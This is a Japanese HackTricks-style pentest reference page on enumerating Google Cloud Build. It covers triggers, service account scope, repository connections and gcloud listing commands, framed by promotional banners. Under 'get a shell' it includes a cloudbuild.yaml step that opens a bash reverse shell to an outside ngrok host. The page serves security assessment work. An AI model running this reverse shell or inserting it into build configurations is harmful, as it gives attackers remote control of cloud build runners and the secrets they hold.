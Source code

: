 # GCP - Cloud Build Enum

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong>を通じてゼロからヒーローまでAWSハッキングを学ぶ</summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝**したい場合や**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **Discordグループ**に**参加**する💬（https://discord.gg/hRep4RUj7f）または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter**🐦で**フォロー**する：**@hacktricks\_live**（https://twitter.com/hacktricks\_live）。
- **HackTricks**（https://github.com/carlospolop/hacktricks）と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>

## 基本情報

Google Cloud Buildは、**ソースコードリポジトリと統合**し、**幅広いプログラミング言語をサポート**する、**ソフトウェアビルドとリリースプロセスを自動化**する管理されたCI/CDプラットフォームです。**開発者がコードを自動的にビルド、テスト、展開**できるようにし、ビルドステップやワークフローをカスタマイズする柔軟性を提供します。

各Cloud Buildトリガーは、**Cloudリポジトリに関連付けられているか、外部リポジトリ（Github、Bitbucket、Gitlab）と直接接続されています**。

{% hint style="success" %}
ここからまたはCloudリポジトリからGithub/Bitbucketトークンを盗む方法は見当たりませんでした。リポジトリがダウンロードされると、[https://source.cloud.google.com/](https://source.cloud.google.com/)のURLを介してアクセスされ、Githubはクライアントによってアクセスされません。
{% endhint %}

### イベント

Cloud Buildは、次の場合にトリガーされます：

- **ブランチにプッシュ**：ブランチを指定
- **新しいタグをプッシュ**：タグを指定
- **プルリクエスト**：PRを受け取るブランチを指定
- **手動呼び出し**
- **Pub/Subメッセージ**：トピックを指定
- **Webhookイベント**：HTTPS URLを公開し、リクエストは秘密で認証される必要があります

### 実行

3つのオプションがあります：

- 実行するコマンドを指定するyaml/json。通常は：`/cloudbuild.yaml`
- WebコンソールとCLIで「インライン」で指定できる唯一のもの
- 最も一般的なオプション
- 認証されていないアクセスに関連する
- ビルドするための**Dockerfile**
- ビルドするための**Buildpack**

### SA権限

**サービスアカウントには`cloud-platform`スコープがあり**、すべての権限を**使用できます**。**SAが指定されていない場合**（submit時など）、**デフォルトのSA** `<proj-number>@cloudbuild.gserviceaccount.com` が**使用されます**。

デフォルトでは権限が与えられていませんが、簡単に権限を与えることができます：

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 承認

Cloud Buildを構成して、ビルドの実行に**承認が必要**なようにすることができます（デフォルトでは無効）。

### 接続とリポジトリ

接続は以下で作成できます：

- **GitHub**：Githubトークンを取得するために**OAuthプロンプトが表示**され、**Secret Manager**内に保存される**Githubトークン**の**権限を求めます**。
- **GitHub Enterprise**：**GithubApp**をインストールするように求められます。GitHub Enterpriseホストからの**認証トークン**が作成され、このプロジェクト内に**Secret Manager**シークレットとして保存されます。
- **GitLab / Enterprise**：**APIアクセストークンとRead APIアクセストークン**を提供する必要があり、これらは**Secret Manager**に保存されます。

接続が生成されると、Githubアカウントがアクセス権を持つリポジトリを**リンクする**ことができます。

このオプションは、次のボタンを介して利用できます：

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
この方法で接続されたリポジトリは、**2世代を使用するトリガーでのみ利用可能**です。
{% endhint %}

### リポジトリの接続

これは**`接続`**とは異なります。これにより、**異なる**方法で**GithubまたはBitbucket**リポジトリにアクセスできますが、**接続オブジェクトは生成されません**。ただし、リポジトリオブジェクト（1世代）は生成されます。

このオプションは、次のボタンを介して利用できます：

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ストレージ

時々、Cloud Buildは**トリガー用のファイルを保存するための新しいストレージを生成**します。これは、GCPが提供する例で発生します。
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### シェルを取得

[security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox)というストレージバケットが作成され、使用するファイルが含まれた`.tgz`が保存されています。
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### 列挙

**ビルド構成とログに機密情報が含まれている可能性があります**。
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 特権昇格

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 認証されていないアクセス

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 攻撃後の処理

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）でAWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[NFTs](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)を**フォロー**する
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks)のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有する

</details>
